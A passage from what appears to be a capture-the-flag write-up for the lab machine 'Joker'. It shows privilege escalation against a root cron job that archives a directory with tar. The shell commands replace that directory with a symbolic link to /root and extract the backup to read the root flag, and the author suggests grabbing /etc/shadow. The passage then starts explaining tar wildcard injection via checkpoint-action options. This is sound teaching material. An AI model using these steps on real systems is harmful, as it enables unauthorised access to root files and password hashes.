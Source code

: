 ### Exploit #1 - File Read as Root via Symbolic Link

As I believe that root is running `tar` on the `development` directory
every five minutes, I'll just move the `development` directory and
replace it with a symbolic link pointing to `/root`:



    alekos@joker:~$ mv development{,.orig}
    alekos@joker:~$ ln -s /root development
    alekos@joker:~$ ls -l 
    total 20
    drwxrwx--- 2 root   alekos 12288 Aug  4 04:20 backup
    lrwxrwxrwx 1 alekos alekos     5 Aug  4 04:22 development -> /root
    drwxr-x--- 5 alekos alekos  4096 May 18  2017 development.orig
    -r--r----- 1 root   alekos    33 May 19  2017 user.txt



Now when it runs, I'll look in the result:



    alekos@joker:~/backup$ tar xvf dev-1596504301.tar.gz -C /tmp/
    backup.sh
    root.txt



I can read the flag:



    alekos@joker:~/backup$ cat /tmp/root.txt
    d452b7fa************************



I could also grab files like `/etc/shadow` and try to break the root
password.

### Exploit #2 - --checkpoint

#### Background

[gtfobins](https://gtfobins.github.io/gtfobins/tar/) shows how to get
execution out of `tar`. My favorite is the `--to-command` flag, but that
only works on extracting, and this job is creating an archive (I showed
that in [TarTarSauce](/htb-tartarsauce.md#to-command)). The
other strategy is to use the flags `--checkpoint=1` and
`--checkpoint-action=exec=[thing to run]`.

I just wrote a couple weeks ago in
[Shrek](/htb-shrek.md#chown-wildcard-exploit) about a
relatively famous [paper about exploiting
wildcards](https://www.exploit-db.com/papers/33930). In Shrek, it was
exploiting `chown`, and here, `tar`. The short story is that when the
shell sees a `*`, it expands it out to all the files space separated. If
I can make a filename that is actually an option for the program calling
it, it will be handled as an option.
